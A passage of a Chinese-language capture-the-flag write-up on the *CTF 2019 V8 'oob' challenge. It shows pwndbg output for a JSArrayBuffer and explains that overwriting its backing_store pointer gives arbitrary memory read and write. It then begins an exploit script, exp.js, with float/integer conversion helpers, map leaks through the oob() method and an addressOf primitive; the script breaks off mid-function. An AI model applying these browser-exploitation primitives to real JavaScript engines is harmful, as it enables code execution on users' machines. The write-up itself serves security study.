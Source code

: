 ```c
 }
pwndbg> job 0x1a568c8108e9  // data_buf
0x1a568c8108e9: [JSArrayBuffer]
 - map: 0x04dd372c21b9 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x1dfa5aa4e981 <Object map = 0x4dd372c2209>
 - elements: 0x29b23ce40c71 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 0x5622bb25a520 // 存储数据的指针
 - byte_length: 8
 - detachable
 - properties: 0x29b23ce40c71 <FixedArray[0]> {}
 - embedder fields = {
    0, aligned pointer: (nil)
    0, aligned pointer: (nil)
 }
```

往 DataView 写数据时，存储数据的指针是保存在 ArrayBuffer 对象中的 backing_store 字段中，所以修改backing_store 指针为目标地址，就可以对目标地址的内容进行任意读写。



### 效果示意图

![image-20200713180051879](D:\github\De4dCr0w.github.io\image\2020-07-13-starctf2019-v8-oob分析\5.png)

#### exp.js

```javascript
var buf = new ArrayBuffer(16)
var float64 = new Float64Array(buf)
var bigUint64 = new BigUint64Array(buf)

function f2i(f)
{
	float64[0] = f;
	return bigUint64[0];
}

function i2f(i)
{
	bigUint64[0] = i;
	return float64[0];
}

function hex(i)
{
	return i.toString(16).padStart(16, "0");
}

var obj = {"a": 1};
var obj_array = [obj];
var float_array = [1.1];

var obj_array_map = obj_array.oob();
var float_array_map = float_array.oob();

function addressOf(obj) // obj -> float addr
{
	obj_array[0] = obj;
	obj_array.oob(float_array_map);
	
	var object_addr = obj_array[0];
	obj_array.oob(obj_array_map);
	return f2i(object_addr)-1n;
```